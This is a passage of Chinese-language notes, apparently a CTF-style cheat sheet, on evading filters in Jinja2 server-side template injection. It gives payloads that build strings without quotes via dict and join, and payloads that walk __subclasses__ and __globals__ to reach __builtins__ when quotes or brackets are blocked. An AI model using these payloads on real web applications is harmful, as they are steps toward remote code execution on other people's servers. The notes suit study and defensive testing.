 ### 引号被过滤

#### dict 与|jion配合

利用在jinja中dict会将键名转化字符串，再利用|jion作用时只拼接键值的特性绕过。（ps：注意键值唯一！）

```python
{{(dict(c=1,l=1,a=1,s=1)|join)~(dict(s=1)|join)}}#class
```

#### dict 与|list 、|last配合

利用dict 构照字典再list转列表提取key值再用last取之。

```python
{{dict(a=1)|list|last}} #a
```

#### |jion与字符串切片提取键值

```python
(''.__class__.__base__.__subclasses__()[91].__init__.__globals__|join)[62:74] ## #|jion 提取 __builtins__

{{(''.__class__.__base__.__subclasses__()[91].__init__.__globals__)[(''.__class__.__base__.__subclasses__()[91].__init__.__globals__|join)[62:74]]}}
```

#### |list提取字典键值

```python
# |list 的作用是字典时会只将字典键值作为转为字符串列表
''.__class__.__base__.__subclasses__()[91].__init__.__globals__|list)[7] 
# __builtins__
{{''.__class__.__base__.__subclasses__()[91].__init__.__globals__[(''.__class__.__base__.__subclasses__()[91].__init__.__globals__|list)[7]]}}
```

#### string 转化出字符拼接

|string将非字符转化为字符的功能很强大,也可以用转化对象来拼字符.

### `[]`被过滤

#### 取属性

用|attr或 `.`来代替。

#### 对字典操作

pop方法(会删除改变字典)

```python
{{{'a':1,'b':2}.pop('b')}} #2
```

get方法
